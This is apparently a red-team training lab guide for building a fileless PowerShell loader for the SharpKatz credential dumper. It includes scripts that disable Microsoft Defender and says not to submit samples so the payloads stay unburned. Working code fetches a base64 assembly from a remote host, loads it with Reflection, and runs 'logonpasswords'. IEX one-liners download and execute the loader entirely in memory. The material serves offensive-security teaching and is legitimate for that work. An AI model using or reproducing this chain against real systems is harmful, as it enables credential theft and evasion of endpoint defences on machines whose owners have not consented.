

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# Lab - PS Loader

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

In this lab we'll be showing how powershell can load assemblies in memory and execute them, we'll also demonstrate how  AMSI catches this, how we bypass this and how we make this attack completely fileless (memory only)

# 0. Turn Microsoft Defender OFF !!! 

Check if Defender is turned `OFF` by by running the av_check.ps1 script:

Open a powershell prompt:

```powershell
cd \thev\labs\powershell
.\av_check.ps1
```


>**IMPORTANT**: Make sure Real-Time Protection is `disabled` (AMSI Scanning can by enable, it won't do anything if Real-Time Protection is disabled) - if this is not the case just run the following script, it will configure the right settings.

```powershell
cd \thev\labs\powershell
.\av_disable.ps1
```

The output should be like this :


# 1. SharpKatz download and compile
```powershell
cd \THEV\Labs\PSLoader
git clone https://github.com/b4rtik/SharpKatz.git
```

Open the sln file with Visual Studio and build the project

Copy the sharpkatz.exe file to C:\THEV\LABS\PSLoader

```powershell
cp C:\THEV\Labs\PSLoader\SharpKatz\SharpKatz\bin\x64\Release\SharpKatz.exe C:\THEV\LABS\PSLoader
```

# 2. BASE64 Encode SharpKatz.exe

```powershell
cd \THEV\Labs\PSLoader
.\b64encoder.ps1
```



# 3. SharpKatz Remote Powershell Loader

```powershell
try {
    $url = "http://10.0.0.7:9090/sharpkatz.b64"
    $base64Assembly = (Invoke-WebRequest -Uri $url -UseBasicParsing).Content
    if ($base64Assembly -is [byte[]]) { $base64Assembly = [Text.Encoding]::UTF8.GetString($base64Assembly) }
    [Reflection.Assembly]::Load([Convert]::FromBase64String($base64Assembly)) | Out-Null
    $arguments = @("--Command") +$args 
    [SharpKatz.Program]::Main($arguments)
} catch {
    Write-Error "Error: $($_.Exception.Message)"
    if ($_.Exception.InnerException) { Write-Error "Inner Exception: $($_.Exception.InnerException.Message)" }
}
```

# 4. IEX

> IEX is the alias for the PowerShell cmdlet Invoke-Expression. It takes a string containing PowerShell code and executes it as if it were typed directly into the PowerShell session. Baiscally IEX allows dynamic execution of remote code.

Now, let's host our powershell script and sharpkatz (b64 encoded) on a remote server, and execute it without touching disk - completely in memory. We use IEX (Invoke-Expression) for this.

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
```

Since we wrote our script to accept arguments, we need to adapt our oneliner a bit, Since Invoke-Expression (IEX) doesn’t natively support passing arguments to the script it executes, you can wrap the downloaded script content in a `script block` and invoke it with arguments using the `call operator (&)`. This approach avoids writing the script to disk and ensures `"logonpasswords"` is passed correctly to the script’s param block.

```powershell
$scriptContent = (New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1")
$scriptBlock = [ScriptBlock]::Create($scriptContent)
& $scriptBlock logonpasswords
```

> *Explanation*
> 1. Download Script Content: (New-Object Net.WebClient).DownloadString fetches the script content as a string from the HTTP server.
> 2. Create Script Block: [ScriptBlock]::Create($scriptContent) converts the string into a PowerShell script block, which supports argument passing.
> 3. Invoke with Arguments: & $scriptBlock `logonpasswords` executes the script block, passing msv as a positional argument. This populates $UserArguments in the script’s param block, resulting in $arguments being @("--command", "logonpasswords").
> 4. No Disk Write: The script is kept in memory as $scriptContent and never saved to disk.

We can convert this back into a one-liner like this, notice the "&" at the beginning!

```powershell
& ([ScriptBlock]::Create((New-Object Net.WebClient).DownloadString("http://10.0.0.7:9090/PSLoaderB64remoteSharpKatz.ps1"))) logonpasswords
```